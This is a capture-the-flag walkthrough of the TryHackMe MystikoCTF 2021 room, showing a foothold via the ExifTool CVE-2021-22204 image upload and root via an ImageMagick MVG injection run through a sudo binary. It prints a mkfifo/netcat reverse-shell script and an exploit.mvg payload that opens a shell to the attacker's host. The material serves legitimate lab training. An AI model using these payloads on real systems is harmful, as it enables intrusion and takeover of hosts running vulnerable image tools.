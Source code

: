 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web, thm, privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

# MystikoCTF 2021

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

## Description

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

I unfortunately didn't have much time for the whole CTF, but I ended up sharing the third position with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)


We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)


I had to upload an image and go to burpsuite, to see what going on actually

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)


I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)


And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

# Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)


So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)


So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)


Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)


# Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)


Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)


I also opened it in ghidra, but nothing was too interesting

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)


Then I had to run the binary in my machine to see what this thing is doing actually ...

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)


Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)


The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)


And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)


2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)


4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)


And yes ! I was root and able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)


---
Hope you enjoyed my writeup like I enjoyed playing the CTF.

Regards,
AB2.